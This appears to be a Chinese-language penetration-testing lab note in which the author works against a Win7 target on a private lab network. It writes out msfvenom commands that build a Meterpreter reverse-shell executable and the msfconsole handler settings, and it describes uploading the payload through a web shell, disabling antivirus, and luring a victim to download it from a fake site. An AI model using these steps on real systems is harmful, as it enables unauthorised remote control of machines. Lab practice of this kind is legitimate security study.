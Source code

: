 发现连不上应该是有firewall


那就用msf上马
msf生成exe木马:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.128 LPORT=2333 -f exe > shell.exe
```

然后msfconsole监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 2333
set lhost 192.168.52.128
exploit -j
```

要把杀软关掉...
蚁剑上传shell.exe到网站目录下 win7运行 msf上线

但逆天的是为什么msf的反弹shell打不通...
抽象啊》。。 nmap能扫到 但ping不通...


自己找个win7试试msf的反弹shell
靶机: win7 192.168.136.147
攻击机: kali2021 192.168.136.146

模拟钓鱼网站诱导下载恶意软件
kali生成好shell.exe后python起一个web服务 靶机访问下载

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.136.147  LPORT=2333 -f exe > shell.exe`

把360关掉(md 得研究免杀了屮)

然后msf上线打
emmm 还是报错 `Handler failed to bind to 192.168.136.147:2333:`

那就换个port再打一遍看看

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.136.147  LPORT=6789 -f exe > shell.exe`

o fxck md这个是lhost... 应该是填kali的ip罢 c...
![img](Vuln_2瞎打版/images/image-9.png)
